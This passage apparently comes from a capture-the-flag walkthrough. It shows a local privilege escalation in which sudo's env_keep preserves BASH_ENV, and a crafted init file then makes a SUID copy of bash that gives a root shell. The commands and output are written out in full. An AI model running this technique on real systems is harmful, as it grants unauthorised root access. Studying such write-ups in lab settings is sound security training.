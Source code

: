 ```bash
bash-5.2$ cat /usr/bin/systeminfo 
#!/bin/bash
echo -e "\n### Displaying kernel ring buffer logs (dmesg) ###"
dmesg | tail -n 10

echo -e "\n### Checking system-wide open ports ###"
ss -antlp

echo -e "\n### Displaying information about all mounted filesystems ###"
mount | column -t

echo -e "\n### Checking system resource limits ###"
ulimit -a

echo -e "\n### Displaying loaded kernel modules ###"
lsmod | head -n 10

echo -e "\n### Checking disk usage for all filesystems ###"
df -h
```

Can't do nothing useful with that. Also, it's set on sudo privileges a env_keep flag:

![image](/assets/images/Environment/Pasted image 20250919191936.png)

The `env_keep` flag means that it preserves the user outside sudo context specified environment variables when executing inside sudo context (from `man sudoers`):

![image](/assets/images/Environment/Pasted image 20250919192119.png)

So hish sudo privileges allows preserving the ENV and BASH_ENV from hish context.

According to [shell tips](https://www.shell-tips.com/bash/environment-variables/#the-shell-init-file-variables-env-and-bash_env), the BASH_ENV variable is used by bash to define an init file to execute after the executed command:

![image](/assets/images/Environment/Pasted image 20250919193245.png)

So, I will create a `init-file` in `/tmp` to later store it in `BASH_ENV` environment variable and execute what I want inside sudo context. In my case I will copy bash to `/tmp` and give it SUID permissions:

```bash
bash-5.2$ nano /tmp/init-file
#!/bin/bash

cp /bin/bash /tmp/bash
chmod u+s /tmp/bash
bash-5.2$ chmod +x /tmp/init-file
```

```bash
bash-5.2$ BASH_ENV=/tmp/init-file sudo /usr/bin/systeminfo
[..snip..]
```

It successfully copied the bash with SUID privileges:

```bash
bash-5.2$ ls -l /tmp/bash 
-rwsr-xr-x 1 root root 1265648 Sep 20 03:49 /tmp/bash
```

To be root, it's only needed to execute `/tmp/bash -p`:

```bash
bash-5.2$ /tmp/bash -p
bash-5.2# whoami
root
```